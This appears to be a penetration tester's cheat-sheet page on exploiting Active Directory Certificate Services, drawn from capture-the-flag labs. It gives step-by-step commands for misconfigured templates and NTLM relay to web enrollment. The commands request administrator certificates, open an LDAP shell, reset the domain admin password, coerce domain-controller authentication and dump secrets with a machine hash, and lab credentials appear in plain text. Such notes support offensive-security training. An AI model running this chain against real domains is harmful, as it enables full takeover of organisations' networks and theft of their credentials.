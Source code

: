 # Active Directory Certificate Services (ADCS)

<details>

<summary>What is it?</summary>

* Relies on **misconfigured certificate templates** that allow low-privileged users to enroll for certificates --> used to get Kerberos tickets for higher-privileged accounts

</details>

<details>

<summary>Finding if ADCS is present in domain</summary>

```
nxc ldap 10.10.11.202 -u ryan.cooper -p NuclearMosquito3 -M adcs
```

<figure><img src=".gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

```
.\Certify.exe cas
```

<figure><img src=".gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Exploitation (Enrollment Rights: Domain Users)</summary>

```bash
# Identify Vulnerable Templates:
.\Certify.exe find /vulnerable
```

<figure><img src=".gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# Use certipy-ad to request a certificate for domain admin
certipy-ad req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb -target sequel.htb -ca sequel-dc-ca -template UserAuthentication -dc-ip 10.10.11.202
```

<figure><img src=".gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
# Download on Kali
wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/refs/heads/main/Python/passthecert.py

# Seperate into key and certificate files
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt

# Passthecert using ldap-shell option
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain sequel.htb -dc-ip 10.10.11.202
whoami
change_password administrator P@ssw0rd123!

evil-winrm -i dc.sequel.htb -u administrator
```

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>Exploitation (Enrollment Rights: Domain Computers)</summary>

<figure><img src=".gitbook/assets/image (362).png" alt=""><figcaption></figcaption></figure>

```bash
# Find vulnerable certificates templates
.\Certify.exe find /vulnerable

# Checking MachineAccountQuota for svc_ldap (to add new computers)
nxc ldap 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M maq

# Add new computer:
impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' htb/svc_ldap  -dc-ip 10.10.11.222

# Request certificate:
certipy-ad req -u 'myComputer$'@authority.htb -p h4x -upn administrator@authority.htb -target authority.htb -ca AUTHORITY-CA -template CorpVPN -dc-ip 10.10.11.222

# Save into key and certificate files:
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt

# Use Pass-the-cert to obtain a LDAP shell:
wget https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/refs/heads/main/Python/passthecert.py
python3 passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.10.11.222
whoami
change_password administrator P@ssw0rd123!

evil-winrm -i 10.10.11.222 -u administrator
```

</details>

<details>

<summary>Exploitation (NTLM Relay to ADCS HTTP Endpoints)</summary>

```bash
# Finding ESC8 Vulnerability (Web Enrollment over HTTP)
certipy-ad find -u 'adam@corp.com' -p lab -dc-ip 192.168.167.60 -enabled
cat 20250705224614_Certipy.txt
```

<figure><img src=".gitbook/assets/image (367).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (368).png" alt=""><figcaption><p>DomainController certificate template is a default template in ADCS and allows both Client and Server Authentication</p></figcaption></figure>

```bash
# Coerce DC (.60) to authenticate with us (.245) via NTLM, (.61) is CA --> relay authentication for certificate request:
impacket-ntlmrelayx -t http://192.168.167.61/certsrv/certfnsh.asp --adcs --template DomainController -smb2support

coercer coerce --target-ip 192.168.167.60 --l 192.168.45.245 -u adam -p lab --filter-method-name EfsRpcAddUsersToFile
```

<figure><img src=".gitbook/assets/image (369).png" alt=""><figcaption><p>Obtained a certificate based on the DomainController certificate template in a pfx format.</p></figcaption></figure>

```bash
# Authenticate to DC as DC machine account with Certipy
certipy-ad auth -pfx DC08$.pfx -dc-ip 192.168.167.60
```

<figure><img src=".gitbook/assets/image (370).png" alt=""><figcaption><p>Got DC machine account and hash</p></figcaption></figure>

```bash
impacket-secretsdump corp.com/'dc08$'@192.168.167.60 -hashes :0e0b464f36ca316cbd3170dad42bea33
```

<figure><img src=".gitbook/assets/image (371).png" alt=""><figcaption></figcaption></figure>

</details>
